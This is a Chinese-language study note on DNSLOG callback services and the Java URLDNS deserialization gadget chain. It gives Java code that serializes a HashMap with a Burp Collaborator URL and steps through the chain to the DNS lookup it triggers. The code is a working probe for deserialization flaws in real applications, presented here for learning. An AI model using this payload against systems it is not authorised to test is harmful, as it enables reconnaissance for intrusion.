








## DNSLOG平台

在线平台

> http://dnslog.cn
>
> http://ceye.io

burp-dnslog

使用方法：打开burpsuite，选择`project options`选择`misc`分类



随后选择顶部工具栏中的Burp，选择`Burp Collaborator client`



将dnslog的url地址复制出来使用。

应用



无dnslog

> https://github.com/r00tSe7en/JNDIMonitor

该项目可脱离dnslog平台监听LDAP请求，下载项目源代码在本地进行编译。



## URLDNS分析

```java
package com.ft.urldns;

import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class urldns {
    public static void main(String[] args) throws Exception {
        HashMap hashMap = new HashMap();
        URL url = new URL("http://g9qo5xr8nq9ypo3ovvvh1hj9q0wqkf.burpcollaborator.net");
        Class c = url.getClass();
        Field hashcodefile = c.getDeclaredField("hashCode");
        hashcodefile.setAccessible(true);
        hashcodefile.set(url,1234);
        hashMap.put(url, 1);
        hashcodefile.set(url,-1);
        serialize(hashMap);
//        unserialize("urldns.bin");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("urldns.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

打上断点进行调试，这里的dnslog平台使用的burpsuite自带的，比较方便。

利用链展示

```
HashMap.readbject()
	HashMap.putVal()
		HashMap.hash()
			URL.hashCode()
```

先在HashMap#readObject下的putVal处下一个断点，走到这里的时候可以看到传入的url为key值。



进入到URL#hashCode()中，不满足if的条件（`hashCode=-1`），所以进入了java.net.URLStreamHandler#hashCode()中



随后进入调用getHostAddress()，传入的参数值u是我的dnslog地址



最后执行了一个查询操作，将一个字符串类型的主机名 (host) 转换为对应的 IP 地址。



链子很短，流程也比较简单，这个应该是在看CC链之前学的基础，只是之前在看的时候没有将其记录下来，于是又简单的记了一下。